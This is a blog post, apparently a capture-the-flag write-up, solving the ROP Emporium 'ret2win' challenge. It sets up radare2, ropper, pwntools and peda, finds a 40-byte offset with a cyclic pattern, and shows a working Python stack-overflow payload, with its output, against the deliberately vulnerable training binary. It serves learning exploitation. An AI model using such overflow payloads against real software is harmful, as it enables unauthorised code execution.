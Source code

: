 ```yaml
---
layout: post
title:  "ROP Emporium: Ret2win"
date:   21-02-2020 13:34:34
categories: exploitation
tags: Exploitation ROP_Emporium Ret2win
---
```


As I am not that experienced with exploitation yet, I recently decided to follow the series of challenges offered by [ROP Emporium][link1]. The challenges will be explained here both as a documentation exercise and with the hope that other cybersecurity enthusiasts will be able to find some value in my post. Since I'll solve most of the challenges in x64 architecture, the following document might be helpful [x64 cheatsheet][link2]

Requirement 
===========
First, we download the zip file for the challenges:
{% highlight bash%}
wget https://ropemporium.com/binary/rop_emporium_all_challenges.zip
unzip rop_emporium_all_challenges.zip
{% endhighlight %}
Radare2
>Radare2 is a complete framework for reverse-engineering and analyzing binaries; composed of a set of small utilities that can be used together or independently from the command line.

{% highlight bash%}
apt-get install git
git clone https://github.com/radare/radare2
cd radare2
sys/install.sh
{% endhighlight %}
Ropper
>You can use ropper to display information about binary files in different file formats and you can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64). For disassembly ropper uses the awesome Capstone Framework.

{% highlight bash%}
apt install python-pip
pip install ropper
{% endhighlight %}
Pwntools
>Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

{% highlight bash%}
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
{% endhighlight %}
Peda
>PEDA - Python Exploit Development Assistance for GDB

{% highlight bash%}
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
{% endhighlight %}

Ret2win
=======
A first glance at the binary using r2 shows three main functions:
{% highlight bash%}
0x00400746    1 111          sym.main
0x004007b5    1 92           sym.pwnme
0x00400811    1 32           sym.ret2win
{% endhighlight %}
Upon further examination, we can easily determine to which address we need to return to:
{% highlight bash%}
/ (fcn) sym.ret2win 32
|   sym.ret2win ();
|           0x00400811      55             push rbp
|           0x00400812      4889e5         mov rbp, rsp
|           0x00400815      bfe0094000     mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:"
|           0x0040081a      b800000000     mov eax, 0
|           0x0040081f      e8ccfdffff     call sym.imp.printf
|           0x00400824      bffd094000     mov edi, str.bin_cat_flag.txt ; 0x4009fd ; "/bin/cat flag.txt"
|           0x00400829      e8b2fdffff     call sym.imp.system
|           0x0040082e      90             nop
|           0x0040082f      5d             pop rbp
\           0x00400830      c3             ret
{% endhighlight %}
Next, we need to determine our offset by providing the binary with a special non-repeatable pattern:
{% highlight bash%}
Creating our pattern:
gdb ret2win
pattern_create 200
or 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
{% endhighlight %}
Once we provide our pattern to the binary we are greeted with:
{% highlight bash%}
Program received signal SIGSEGV, Segmentation fault.                                                      
[----------------------------------registers-----------------------------------]                          
RAX: 0x7fffffffe130 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                 
RBX: 0x0                                                                                                  
RCX: 0x0                                                                                                  
RDX: 0x7ffff7fa4590 --> 0x0                                                                               
RSI: 0x6022a1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'"...)
RDI: 0x7fffffffe131 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                  
RBP: 0x6141414541412941 ('A)AAEAAa')                                                                      
RSP: 0x7fffffffe158 ("AA0AAFAAb")                                                                         
RIP: 0x400810 (<pwnme+91>:      ret)                                                                      
R8 : 0x7fffffffe130 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                 
R9 : 0x7ffff7fa9500 (0x00007ffff7fa9500)                                                                  
R10: 0x410                                                                                                
R11: 0x246                                                                                                
R12: 0x400650 (<_start>:        xor    ebp,ebp)                                                           
R13: 0x7fffffffe240 --> 0x1                                                                               
R14: 0x0                                                                                                  
R15: 0x0                                                                                                  
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)                         
[-------------------------------------code-------------------------------------]                                                                                                                                    
   0x400809 <pwnme+84>: call   0x400620 <fgets@plt>                                                       
   0x40080e <pwnme+89>: nop                                                                               
   0x40080f <pwnme+90>: leave                                                                             
=> 0x400810 <pwnme+91>: ret                                                                               
   0x400811 <ret2win>:  push   rbp                                                                        
   0x400812 <ret2win+1>:        mov    rbp,rsp                                                            
   0x400815 <ret2win+4>:        mov    edi,0x4009e0                                                       
   0x40081a <ret2win+9>:        mov    eax,0x0                                                            
[------------------------------------stack-------------------------------------]                          
0000| 0x7fffffffe158 ("AA0AAFAAb")                                                                        
0008| 0x7fffffffe160 --> 0x400062 --> 0x1f8000000000000                                                   
0016| 0x7fffffffe168 --> 0x7ffff7e0ebbb (<__libc_start_main+235>:       mov    edi,eax)                                                                                                                             
0024| 0x7fffffffe170 --> 0x0                                                                              
0032| 0x7fffffffe178 --> 0x7fffffffe248 --> 0x7fffffffe53a ("/root/ropemporium/ret2win")                  
0040| 0x7fffffffe180 --> 0x100040000                                                                      
0048| 0x7fffffffe188 --> 0x400746 (<main>:      push   rbp)                                               
0056| 0x7fffffffe190 --> 0x0                                                                              
[------------------------------------------------------------------------------]                          
Legend: code, data, rodata, value                                                                         
Stopped reason: SIGSEGV                                                                                   
0x0000000000400810 in pwnme ()   
{% endhighlight %}
We can see that the stack pointer(RSP) has now been overwritten by the value "AA0AAFAAb".  Using this value, we can determine how much padding will be needed before writing the address to the function ret2win@0x00400811
{% highlight bash%}
pattern offset AA0AAFAAb
AA0AAFAAb found at offset: 40
{% endhighlight %}
Now if all goes according to plan, the following line should return the flags:
{% highlight bash%}
python -c 'print "\x90"*40                #Will take care of the padding
+"\x11\x08\x40\x00\x00\x00\x00\x00\x00"'  #Will write our address into RSP
   
root@kali:~/ropemporium# python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00\x00"' | ./ret2win
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
Segmentation fault

{% endhighlight %}
   
*Note that the value of RIP has not been overwritten, this is because, in the x64 architecture, the value will not be poped into RDI if it cannot be jumped to or executed.

[link1]:https://ropemporium.com/
[link2]:/document/x64_cheatsheet.pdf

